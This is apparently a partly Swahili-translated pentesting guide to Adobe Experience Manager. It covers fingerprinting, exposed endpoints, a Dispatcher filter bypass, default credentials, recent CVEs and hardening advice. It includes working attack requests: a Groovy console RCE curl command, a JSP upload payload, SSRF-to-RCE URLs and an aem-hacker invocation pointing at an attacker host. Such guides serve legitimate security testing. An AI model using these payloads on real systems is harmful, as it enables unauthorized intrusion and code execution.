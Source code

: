 # AEM (Adobe Experience Manager) Pentesting

{{#include ../../banners/hacktricks-training.md}}

> Adobe Experience Manager (AEM, sehemu ya Adobe Experience Cloud) ni CMS ya biashara inayotumia Apache Sling/Felix (OSGi) na Java Content Repository (JCR).
> Kutoka kwa mtazamo wa mshambuliaji, mifano ya AEM mara nyingi huonyesha hatari za maendeleo, sheria dhaifu za Dispatcher, akreditivu za default na orodha ndefu ya CVEs ambazo zinarekebishwa kila robo mwaka.

Orodha ya ukaguzi hapa chini inazingatia **uso wa shambulio unaoweza kufikiwa kwa nje (unauth)** ambao unaendelea kuonekana katika ushirikiano halisi (2022-2025).

---

## 1. Fingerprinting
```
$ curl -s -I https://target | egrep -i "aem|sling|cq"
X-Content-Type-Options: nosniff
X-Dispatcher: hu1            # header added by AEM Dispatcher
X-Vary: Accept-Encoding
```
Other quick indicators:
* `/etc.clientlibs/` njia ya kudumu iliyopo (inarudisha JS/CSS).
* `/libs/granite/core/content/login.html` ukurasa wa kuingia wenye bendera ya “Adobe Experience Manager”.
* `</script><!--/* CQ */-->` maoni chini ya HTML.

---

## 2. Mipaka ya juu ya thamani zisizo na uthibitisho

Path | Unachopata | Maelezo
---- | ------------- | -----
`/.json`, `/.1.json` | JCR nodes kupitia **DefaultGetServlet** | Mara nyingi imezuiwa, lakini *Dispatcher bypass* (ona hapa chini) inafanya kazi.
`/bin/querybuilder.json?path=/` | QueryBuilder API | Leak ya mti wa ukurasa, njia za ndani, majina ya watumiaji.
`/system/console/status-*`, `/system/console/bundles` | OSGi/Felix console | 403 kwa kawaida; ikiwa imefunuliwa & sifa zimepatikana ⇒ bundle-upload RCE.
`/crx/packmgr/index.jsp` | Package Manager | Inaruhusu pakiti za maudhui zilizothibitishwa → kupakia mzigo wa JSP.
`/etc/groovyconsole/**` | AEM Groovy Console | Ikiwa imefunuliwa → utekelezaji wa Groovy / Java bila mipaka.
`/libs/cq/AuditlogSearchServlet.json` | Kumbukumbu za ukaguzi | Ufunuo wa taarifa.
`/libs/cq/ui/content/dumplibs.html` | ClientLibs dump | XSS vector.

### Njia ya kupita ya Dispatcher
Sehemu nyingi za uzalishaji ziko nyuma ya *Dispatcher* (reverse-proxy). Kanuni zake za filtrering zinaweza kupitishwa kwa kuongeza kiambishi cha kudumu kilichoruhusiwa **baada ya alama ya semikolon au newline iliyosimbwa**:
```
GET /bin/querybuilder.json;%0aa.css?path=/home&type=rep:User HTTP/1.1
```
A single request like above frequently discloses user profile nodes with email addresses. P-T Partners published good guidance on this weakness. 【】

---

## 3. Makosa ya kawaida ya usanidi (bado yanaendelea mwaka 2025)

1. **Anonymous POST servlet** – `POST /.json` with `:operation=import` lets you plant new JCR nodes.  Blocking `*.json` POST in the Dispatcher fixes it. 【】
2. **Profaili za watumiaji zinazoweza kusomwa na kila mtu** – default ACL grants `jcr:read` on `/home/users/**/profile/*` to everyone.
3. **Akawali za default** – `admin:admin`, `author:author`, `replication:replication`.
4. **WCMDebugFilter** enabled ⇒ reflected XSS via `?debug=layout` (CVE-2016-7882, still found on legacy 6.4 installs).
5. **Groovy Console exposed** – remote code execution by sending a Groovy script:
```bash
curl -u admin:admin -d 'script=println "pwn".execute()' https://target/bin/groovyconsole/post.json
```

---

## 4. Uthibitisho wa hivi karibuni (mzunguko wa huduma)

Quarter | CVE | Affected | Impact
------- | --- | -------- | ------
Dec 2024 | **CVE-2024-43711** | 6.5.21 and earlier | Improper input validation → **Arbitrary code execution** (requires low-priv auth). 【】
Dec 2024 | CVE-2024-43724/26 | 6.5.21 and earlier | DOM / Stored XSS in Move Page Wizard. 【】
Dec 2023 | CVE-2023-48452/68 | ≤ 6.5.18 | DOM-based XSS via crafted URL. 【】
Dec 2022 | CVE-2022-30683 | ≤ 6.5.13 | Crypto design flaw → secret decryption (needs low-priv creds). 【】

Always check the *APSB* bulletin matching the customer’s service-pack and request the latest **6.5.22** or *Cloud Service 2024.11*.

---

## 5. Vipande vya unyakuzi

### 5.1 RCE kupitia bypass ya dispatcher + upakuaji wa JSP
If anonymous write is possible:
```
# 1. Create a node that will become /content/evil.jsp
POST /content/evil.jsp;%0aa.css HTTP/1.1
Content-Type: application/x-www-form-urlencoded

:contentType=text/plain
jcr:data=<% out.println("pwned"); %>
:operation=import
```
Sasa omba `/content/evil.jsp` – JSP inafanya kazi na mtumiaji wa mchakato wa AEM.

### 5.2 SSRF hadi RCE (historia < 6.3)
`/libs/mcm/salesforce/customer.html;%0aa.css?checkType=authorize&authorization_url=http://127.0.0.1:4502/system/console`
`aem_ssrf2rce.py` kutoka **aem-hacker** inafanya otomatiki mnyororo mzima. 【】

---

## 6. Zana

* **aem-hacker** – skripti ya kuorodhesha ya Swiss-army, inasaidia bypass ya dispatcher, ugunduzi wa SSRF, ukaguzi wa default-creds na zaidi.
```bash
python3 aem_hacker.py -u https://target --host attacker-ip
```【】
* **Content Brute-force** – omba kwa kurudiwa `/_jcr_content.(json|html)` kugundua vipengele vilivyofichwa.
* **osgi-infect** – pakia bundle ya OSGi yenye uharibifu kupitia `/system/console/bundles` ikiwa creds zinapatikana.

---

## 7. Orodha ya kuimarisha (kwa mapendekezo ya ripoti yako)

1. Hifadhi mfano kwenye **pakiti ya huduma ya hivi karibuni** (kuanzia Julai 2025: 6.5.22).
2. Ondoa/zungusha akaunti za default; tekeleza SSO/SAML.
3. Imarisha **Dispatcher filters** – kataza `;`, mistari mipya iliyokodishwa, na `*.json` au `*.querybuilder.json` kwa watumiaji wasiojulikana.
4. Zima au linda consoles (`/system/console`, `/crx/*`, `/etc/groovyconsole`) kwa orodha za ruhusa za IP.
5. Tekeleza pakiti ya *Anonymous Permission Hardening* iliyotolewa na Adobe.

## Marejeleo

* Adobe Security Bulletin APSB24-69 – “Maktaba za usalama kwa Adobe Experience Manager (Desemba 2024)”.
* 0ang3el – zana ya aem-hacker (GitHub).
{{#include ../../banners/hacktricks-training.md}}
